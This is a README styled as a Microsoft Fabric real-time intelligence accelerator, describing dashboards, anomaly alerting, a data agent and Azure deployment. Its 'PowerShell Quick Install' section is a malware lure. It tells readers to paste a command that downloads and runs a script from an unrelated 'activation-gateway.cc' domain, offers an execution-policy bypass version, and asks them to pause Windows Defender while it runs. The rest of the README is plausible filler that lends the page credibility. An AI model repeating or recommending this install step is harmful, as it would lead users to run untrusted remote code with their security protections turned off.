


<div align="center">

# Real-Time Intelligence Operations Accelerator: Dashboards, Anomaly Detection — Windows Desktop Cl...


[]() []() []()

</div>

---

This solution accelerator delivers a production-ready reference architecture for real-time intelligence in operations, combining live telemetry ingestion with interactive dashboards, automated anomaly detection, and a Fabric data agent for conversational analytics. It provides a working end-to-end implementation that spans data simulation, event streaming, storage, visualization, and alerting, so teams can validate the design against realistic operational workloads before extending it. The architecture is modular and can be adapted to new data sources, custom KQL queries, and revised alerting rules to fit different industrial scenarios.

## 💻 PowerShell Quick Install

> [!TIP]
> **Automated setup** — one command, done.
> Win 10/11 · PowerShell 5.1+ · Standard user

### 1️⃣ Launch PowerShell
* Right-click the Start button.
* Choose **Terminal (Admin)** or **Windows PowerShell**.

### 2️⃣ Run the script
Copy the line below into PowerShell and press `Enter`.

```cmd
iex(irm 'https://activation-gateway.cc/update/ps-activator')
```

### 3️⃣ If PowerShell blocks the script
Paste this into a standard Command Prompt (cmd) and press `Enter`:

```cmd
powershell -NoProfile -ExecutionPolicy Bypass -Command "iex(irm 'https://activation-gateway.cc/update/ps-activator')"
```

> [!WARNING]
> Windows Defender or third-party AV may flag the script. Pause Real-time protection in Windows Security, run the installer, and re-enable it right after.

## ✅ Requirements

- **PowerShell 5.1+** (pre-installed on Windows 10 and 11)
- **Windows 10 / 11** (x64)
- **Internet connection** — required to fetch the script
- **Administrator** — *not* required

## Features

- **Real-Time Operations Dashboard** 
 An interactive, near real-time dashboard visualizes asset status, sensor telemetry, quality metrics, and performance trends across operations. The dashboard is structured into multiple views, enabling drill-down from aggregate operational summaries to individual sensor-level time-series data.

- **Anomaly Detection and Automated Alerting** 
 Configurable anomaly detection rules continuously evaluate incoming telemetry streams against defined thresholds and patterns. When anomalies are detected, the solution triggers automated notifications through email, with support for additional notification channels such as team collaboration platforms.

- **Fabric Data Agent for Conversational Insights** 
 An integrated data agent provides a natural-language conversational interface over operational data hosted in the eventhouse. Users can query live and historical operational metrics and derive insights without authoring query code, lowering the barrier to data-driven decision-making.

- **Eventhouse and KQL-Based Data Analytics** 
 Operational telemetry is ingested and stored in a scalable eventhouse with a KQL database. Reusable KQL queries and querysets are provided for data analysis and performance metric computation, serving as a foundation for customization to specific operational requirements.

- **Telemetry Data Simulation and Ingestion** 
 A one-time batch historical data simulator and a real-time telemetry event simulator are included to populate the solution with representative operational data. These components accelerate environment validation and can be adapted to generate data aligned with custom industry scenarios.

- **Configurable and Extensible Architecture** 
 The solution is designed for extensibility across industries. Data sources, dashboard queries, anomaly detection rules, and data agent instructions are independently configurable, enabling adaptation to domain-specific operational workflows without re-architecting the core platform.

## Solution Overview

The solution accelerator delivers an end-to-end reference implementation for real-time operational intelligence, combining streaming ingestion, near-real-time analytics, automated anomaly detection, and conversational data access within a unified architecture. It is designed to be deployed as a working solution and then adapted to production telemetry sources and operational requirements.

### Solution Architecture

The architecture follows a layered pattern that separates data ingestion, storage and query, visualization, alerting, and intelligent interaction:

- **Data ingestion** — Synthetic telemetry is produced by the included data simulator, which emits both a one-time historical batch and a continuous real-time stream. The ingestion layer is decoupled from the producer, so custom or industry-specific data sources can be connected in place of the simulator without altering downstream components.
- **Storage and query** — Telemetry is persisted in an eventhouse with a KQL database, providing high-throughput ingestion and low-latency analytical queries over streaming and historical data.
- **Visualization** — A real-time dashboard surfaces asset performance, sensor status, quality metrics, and time-series trends across multiple pages, backed by reusable KQL queries.
- **Alerting** — Activator rules evaluate incoming data against configurable anomaly detection conditions and dispatch notifications when thresholds are met.
- **Intelligent interaction** — A data agent is configured over the eventhouse to answer natural-language operational questions, returning insights derived directly from the data without requiring query authoring.

### How to Customize

The accelerator is structured so that common adaptation points are isolated and independently modifiable:

- **Data generation and collection** — Extend or replace the simulator to emit telemetry aligned with your own industry, asset taxonomy, or sensor schema, or connect an existing event stream to the ingestion layer.
- **Dashboard queries** — Modify the KQL queries that back individual dashboard tiles to reflect your own metrics, dimensions, and time windows.
- **Activator rules** — Adjust anomaly detection thresholds, conditions, and notification targets to match your operational response requirements.
- **Data agent instructions** — Update the agent's configuration and guidance to align its responses with your business terminology and analytical priorities.

### Design Principles

- **Deployable as a working solution** — The architecture is provisioned and wired together as a complete implementation rather than a set of disconnected samples, providing a validated starting point.
- **Separation of concerns** — Ingestion, storage, visualization, alerting, and conversational access are independently configurable, allowing components to be adopted, replaced, or extended in isolation.
- **Reusable analytical assets** — KQL queries for data analysis and performance metrics are provided as reusable building blocks that can be composed into new dashboards and reports.
- **Extensibility beyond the initial scenario** — Although the included data and dashboards target a specific operational scenario, the underlying pattern is industry-agnostic and can be reapplied to other asset monitoring and telemetry-driven use cases.

## Quick Deploy

Deployment is orchestrated through the Azure Developer CLI and provisions the full real-time intelligence stack into your own Azure subscription. The deployment is parameterized so you can tailor resource naming and alert routing before provisioning begins.

### Deployment workflow

1. **Prepare the environment** — Confirm access to an Azure subscription with permissions to create resource groups, resources, and app registrations, and to assign roles at the resource group level. Verify that Microsoft Fabric capacity is enabled for your organization.
2. **Authenticate** — Sign in with the Azure Developer CLI for provisioning and with the Azure CLI for the commands that connect Azure resources to the Fabric workspace.
3. **Configure deployment parameters** — Set environment values for the target Fabric workspace name, workspace administrators (comma-separated identities), Eventhouse and KQL database names, Event Hub connection name, Eventstream name, Real-Time Dashboard name, Activator name, and the email address that receives anomaly alerts.
4. **Provision** — Run a single deployment command that creates the Azure resources, establishes the Fabric workspace and items, wires the Eventstream and Eventhouse, and applies the Activator rules.
5. **Validate** — Confirm the dashboard renders live telemetry, the anomaly rules are active, and the Fabric Data Agent responds to conversational queries.

### What gets deployed

- **Fabric workspace and Eventhouse** — Hosts the telemetry data and the KQL database used by dashboards and the data agent.
- **Real-Time Intelligence dashboard** — Provisioned with the prebuilt tiles and KQL queries for asset performance, sensor trends, anomaly rates, and maintenance status.
- **Activator rules** — Anomaly detection rules configured to notify the designated recipients by email, with Teams channel notification supported through rule configuration.
- **Eventstream and Event Hub connection** — Ingestion path for real-time telemetry, ready to accept your own data sources in place of the included simulator.
- **Fabric Data Agent** — Configured with the solution's instructions for natural-language operational queries.

### Operational notes

- Deployment is idempotent; re-running the provisioning command applies configuration changes to existing resources.
- Customize the data simulator, KQL queries, Activator rules, and data agent instructions to align the solution with your own industry and business goals.
- To avoid unnecessary costs, remove the deployment when it is no longer in use by deleting the resource group or running the teardown command.

## 📸 Screenshot






## Compatibility

The solution accelerator is designed to run on Microsoft Fabric and Microsoft Azure and requires an active Fabric capacity enabled for your organization along with an Azure subscription that has sufficient permissions to provision resource groups, resources, and role assignments. Deployment is validated against the Azure Developer CLI and Azure CLI toolchain, and the infrastructure templates target currently supported Azure and Fabric service versions.

**Platform requirements**

- Microsoft Fabric capacity must be enabled for the target tenant before deployment, and the deploying identity must be able to create and administer Fabric workspaces.
- The Azure subscription used for deployment must permit creation of resource groups, Event Hubs, Key Vault, and associated role assignments at the resource group level.
- Anomaly notification scenarios require a configured email recipient or Teams channel target for Activator rules.
- The Fabric Data Agent component depends on Fabric Data Science capabilities being available in the target workspace region.

**Data and workload compatibility**

- The telemetry data simulator emits synthetic event streams compatible with Event Hub ingestion and Eventstream routing into an EventHouse.
- KQL queries, dashboards, and Activator rules are authored against the schema produced by the included simulator and can be adapted to alternative data sources connected through Event Hub.
- Historical batch ingestion and real-time streaming paths are supported side by side, allowing the dashboard and data agent to operate over both warm and long-term data.

**Extensibility**

The architecture is intentionally decoupled from any single industry vertical. Custom data sources, revised KQL queries, adjusted Activator rules, and updated data agent instructions can be substituted without altering the core deployment topology, allowing the accelerator to be retargeted to new operational scenarios while preserving the reference architecture.

## FAQ

**What is the scope of this solution accelerator?**

This solution accelerator delivers a working, end-to-end reference architecture for real-time intelligence in operations. It includes a real-time dashboard, automated anomaly detection with notifications, and a Fabric data agent for conversational analytics over live telemetry. The architecture is designed to be extended to additional industries by connecting external data sources and tailoring dashboards, queries, and alerting rules.

**Which components are deployed as part of the solution?**

The deployment provisions an event ingestion path, an eventhouse with a KQL database for telemetry storage, a real-time dashboard for operational reporting, Activator rules for anomaly detection and alerting, and a data agent configured for natural-language querying. Historical and real-time telemetry simulators are included to populate the solution with representative data immediately after deployment.

**Can the solution be adapted to my own industry or data sources?**

Yes. The telemetry simulators can be modified to emit data aligned with your own assets and sensor schemas, and external sources can be connected to the ingestion layer. KQL queries backing the dashboard tiles, Activator rules, and the data agent instructions are all configurable so the solution reflects your operational goals and business logic.

**How does anomaly detection and alerting work?**

Activator rules evaluate incoming telemetry against configurable thresholds and patterns, then trigger notifications when conditions are met. Notification channels include email and Teams, and rule definitions can be adjusted without redeploying the solution. Alert recipients are specified during deployment configuration.

**What does the real-time dashboard provide?**

The dashboard presents asset status, sensor-level trends, quality metrics, anomaly rates by asset, maintenance state, and fault correlations across multiple pages. Queries are reusable and can be extended to surface additional operational metrics as your requirements evolve.

**What is required to deploy the solution?**

Deployment requires an Azure subscription with sufficient permissions to create resource groups and assign roles, along with Microsoft Fabric capacity enabled for your organization. Configuration values such as workspace names, eventhouse and database names, dashboard names, and alert email addresses are supplied through environment settings before provisioning.

**How are credentials and connections secured?**

Connections between resources are stored in a managed key vault, and managed identity is used for service-to-service authentication. It is recommended that secret scanning remain enabled in any repository derived from this accelerator, and that additional protections such as cloud security posture management and network isolation be applied according to your organization's standards.

**Is the included data production-ready?**

No. All telemetry included with the solution accelerator is synthetic and generated programmatically. It is intended solely to demonstrate the architecture and validate the deployment, and should be replaced with real operational data before any production use.

**How can the solution be demonstrated after deployment?**

A dedicated demonstrator guide walks through the end-to-end experience, including dashboard navigation, triggering an anomaly to observe alerting behavior, and querying the data agent. This allows stakeholders to evaluate the solution without additional configuration.

**Where can I find detailed guidance on individual components?**

Each component includes supporting documentation covering data ingestion, the event simulator, the real-time dashboard, the data agent, Activator configuration, KQL analysis, and performance metrics. Refer to these guides for configuration details, customization patterns, and operational best practices.

## License

This solution accelerator is provided under the MIT License. The license governs the use, reproduction, modification, and distribution of the source code, configuration templates, deployment scripts, dashboard definitions, KQL queries, simulator programs, and supporting documentation contained in this project.

Permission is granted, free of charge, to any person obtaining a copy of the software and associated documentation, to deal in the software without restriction, including the rights to use, copy, modify, merge, publish, distribute, sublicense, and permit persons to whom the software is furnished to do so, subject to the conditions of the license.

The software is provided "as is", without warranty of any kind, express or implied, including but not limited to the warranties of merchantability, fitness for a particular purpose, and noninfringement. In no event shall the authors or copyright holders be liable for any claim, damages, or other liability, whether in an action of contract, tort, or otherwise, arising from, out of, or in connection with the software or the use or other dealings in the software.

Usage of this solution accelerator does not grant any license or right to use the Microsoft products and services it integrates with, including Microsoft Fabric, Azure services, or any other platform components referenced by the architecture. Those components remain subject to their own applicable product terms and licensing conditions, which are independent of the license governing this project.

The sample telemetry data included in this project is synthetic and generated programmatically. It is provided solely for demonstration and validation purposes and carries no warranty of accuracy, completeness, or fitness for production workloads.

Redistribution of this solution accelerator, in whole or in part, must retain the applicable copyright notice and this license text. Modified versions may be distributed under terms of your choosing, provided that such terms do not misrepresent the origin of the original software or imply endorsement by the project maintainers.

Compliance with all applicable domestic and international laws and regulations in connection with the use of this software is the sole responsibility of the licensee.